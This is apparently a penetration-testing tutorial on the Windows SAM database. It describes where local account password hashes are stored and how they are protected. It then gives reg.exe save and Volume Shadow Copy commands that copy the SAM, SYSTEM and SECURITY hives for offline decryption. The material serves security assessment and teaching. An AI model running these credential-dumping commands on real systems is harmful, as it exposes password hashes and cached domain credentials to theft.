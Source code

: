 # SAM Database

## SAM Database

The Security Accounts Manager (SAM) database is a critical component of Windows operating systems that stores local user accounts and security information. Understanding how to access and analyze the SAM database is essential for penetration testing and security assessments.

### Overview of the SAM Database

The SAM database:

* Stores user account information for local (non-domain) accounts
* Contains username and password hashes
* Is stored in `%SystemRoot%\System32\config\SAM`
* Is locked while the operating system is running
* Requires system-level access to extract directly

Windows protects the SAM database by:

* Preventing access to the file while the system is running
* Using the SYSTEM account as the owner
* Encrypting the data with a bootkey from the SYSTEM hive

### Registry Hives of Interest

To fully access and decrypt the SAM database, you need to extract the following registry hives:

| Registry Hive   | Description                                                                               |
| --------------- | ----------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords                               |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database                    |
| `hklm\security` | Contains cached credentials for domain accounts (useful on domain-joined Windows targets) |

### Extracting SAM Hives

#### Using reg.exe (Windows)

With administrative privileges, you can create backup copies of these registry hives:

```cmd
C:\> reg.exe save hklm\sam C:\sam.save
C:\> reg.exe save hklm\system C:\system.save
C:\> reg.exe save hklm\security C:\security.save
```

#### Using Volume Shadow Copy (Windows)

For systems where direct access to the SAM file is blocked, Volume Shadow Copy can be used:

```cmd
C:\> vssadmin create shadow /for=C:
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\SAM
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\SYSTEM
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\SECURITY
```
